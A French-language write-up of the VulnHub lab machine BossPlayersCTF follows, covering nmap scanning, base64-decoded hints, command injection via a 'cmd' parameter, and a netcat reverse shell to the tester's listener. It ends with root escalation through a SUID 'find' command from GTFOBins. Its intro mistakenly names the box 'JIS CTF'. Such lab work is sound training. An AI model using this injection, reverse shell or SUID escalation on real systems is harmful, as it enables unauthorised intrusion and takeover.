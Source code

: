 ```yaml
---
layout: post
title: VulnHub - BossPlayersCTF
subtitle: VulnHub - Linux Machine - Easy 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [VulnHub, Find]
comments: false
---
```


![Logo](/img/Vulnhub_logo.png){: .center-block :}

JIS CTF est une machine vulnérable créée par Cuong Nguyen et disponible depuis septembre 2019 en téléchargement sur [VulnHub](https://www.vulnhub.com/entry/jis-ctf-vulnupload,228/). Elle est également proposée sur la plateforme d'[Offensive Security](https://www.offensive-security.com/labs/individual/).

## 1. User

Nmap:

~~~
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# nmap -sC -sV 192.168.185.20
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-15 11:56 CET
Nmap scan report for 192.168.185.20
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 ac:0d:1e:71:40:ef:6e:65:91:95:8d:1c:13:13:8e:3e (RSA)
|   256 24:9e:27:18:df:a4:78:3b:0d:11:8a:92:72:bd:05:8d (ECDSA)
|_  256 26:32:8d:73:89:05:29:43:8e:a1:13:ba:4f:83:53:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.17 seconds
~~~

Les ports http (80) et ssh (22) sont ouverts.

Port 80:

![Logo](/img/Boss_1.png){: .center-block :}

Robots.txt:

![Logo](/img/Boss_2.png){: .center-block :}

`super secret password - bG9sIHRyeSBoYXJkZXIgYnJvCg==`

~~~
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
lol try harder bro
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# 
~~~

Le code source donne rien a premiere vue. Dirb ne donne aucun résultat

retour au code source, défiler jusqu'en bas:

![Logo](/img/Boss_3.png){: .center-block :}

~~~
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d
d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d | base64 -d
workinginprogress.php
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# 
~~~

workinginprogress.php

![Logo](/img/Boss_4.png){: .center-block :}

ping command = ping argument ?

![Logo](/img/Boss_5.png){: .center-block :}

NOPE ! cmd argument ?

![Logo](/img/Boss_6.png){: .center-block :}

Oooo on peut lancer des commandes ! nc ?

Ref: [0xSs0rZ - GitBook](https://0xss0rz.gitbook.io/0xss0rz/pentest-htb/web-1/shell-reverse-shell#netcat-reverse-shell)

lancer un listener sur le port 1337 et visiter http://192.168.185.20/workinginprogress.php?cmd=nc%20192.168.49.185%201337%20-e%20/bin/bash

uploader LinEnum et le lancer. On trouve

![Logo](/img/Boss_7.png){: .center-block :}

Find SUID - GTFOBins: [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

`find . -exec /bin/sh -p \; -quit`

![Logo](/img/Boss_8.png){: .center-block :}

~~~
www-data@bossplayers:/tmp$ ffiinndd  ..//  --eexxeecc  //bbiin/ban/bsashh  --pp  \\;;

bash-5.0# iiss

bash: is: command not found
bash-5.0# iidd

uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.0# ccdd  //rroootot

bash-5.0# lsls

proof.txt  root.txt
bash-5.0# ccaatt  rroooott..ttxxtt

Your flag is in another file...
bash-5.0# ccaatt  pprrooooff..ttxxtt

07461c1b296dc93f559fdc0ec472838e
bash-5.0# 
~~~

**Poursuivez avec :** 

[- VulnHub - JIS CTF](https://0xss0rz.github.io/2020-11-16-VulnHub-JISCTF/)

[- HTB - Admirer](https://0xss0rz.github.io/2020-10-04-HTB-Admirer/)

[- HTB - Magic](https://0xss0rz.github.io/2020-08-24-HTB-Magic/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
